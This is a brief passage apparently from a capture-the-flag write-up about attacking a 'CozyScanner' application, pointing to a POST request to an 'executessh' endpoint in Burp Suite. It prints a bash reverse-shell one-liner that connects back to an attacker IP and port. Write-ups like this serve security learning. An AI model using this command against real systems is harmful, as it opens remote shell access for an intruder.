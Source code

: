 ## Reverse Shell

![COZYSCANNER](cozyscanner.png)

Let's see if we can find any vulnerability in `CozyScanner`

![BURPSUITE](burpsuite.png)

We can see that there is a `POST` request to `executessh` endpoint. Let's try to exploit this.

```
bash -i >& /dev/tcp/<10.10.14.174>/<9001> 0>&1
```

![BURPSUITEREPEARTER](burpsuiterepeater.png)
